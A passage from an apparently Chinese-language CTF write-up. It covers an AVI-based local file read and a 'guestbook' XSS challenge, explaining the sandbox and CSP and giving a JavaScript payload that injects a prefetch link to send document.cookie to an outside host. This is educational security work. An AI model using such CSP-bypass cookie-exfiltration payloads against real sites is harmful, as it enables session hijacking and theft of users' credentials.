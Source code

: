 ![image.png-194.2kB][3]
```
python3 gen_xbin_avi.py file:////home/s0m3b0dy/flag 3.avi    

flag{U8I6y5hRfmn5M0ViR8im6FAn0GmCb8rg}
```

## guestbook ##

题目本身不太难，不过感觉很多人都对这个题有争议，我就多说几句吧。

题目主要有下面几个条件
聊天版，有CSP（允许unsafe-line），然后有一些sandbox，rname可以修改名字。

ps:这里本来想要详细一点儿，结果题关了...不能截图了

1、首先是sandbox
```
<script>
	//sandbox
	delete window.Function;
	delete window.eval;
	delete window.alert;
	delete window.XMLHttpRequest;
	delete window.Proxy;
	delete window.Image;
	delete window.postMessage;
</script>
```
应该是从0ctf那个题目复制过来的，但是我觉得很常见，没啥问题。

2、然后是CSP
```
Content-Security-Policy	
default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval'; font-src 'self' fonts.gstatic.com
; style-src 'self' 'unsafe-inline'; img-src 'self'
```
基本都是self

先说正解吧，正解思路比较清楚，既然unsafe-inline，那么我们先获取一个后台的请求再说，bypass csp的方式就那么几种，主要是meta和link两个，测试发现直接传入`<link`就会被替换为hacker。

那么我们可以通过unsafe-inline来构造一个link，那么就不会出现`<link`了

我在[http://lorexxar.cn/2016/10/28/csp-then/](http://lorexxar.cn/2016/10/28/csp-then/)中提到这种攻击方式。
```
var n0t = document.createElement("link");
n0t.setAttribute("rel", "prefetch");
n0t.setAttribute("href", "//ssssss.com/?" + document.cookie);
document.head.appendChild(n0t);
```

这里我们能收到请求，但是cookie里却没东西。这里有一个cookie的路径问题，一会儿也会提到，先简单说一下。

![image.png-93.6kB][4]


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hml88kgi4o6fedxcf2b310a2/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ovwsqpqw3m7woxybr5n1rx0a/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fezpkgin6jwtnpw28y6ep02b/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/tr0z404vlz8pe1622z4uxpm5/image.png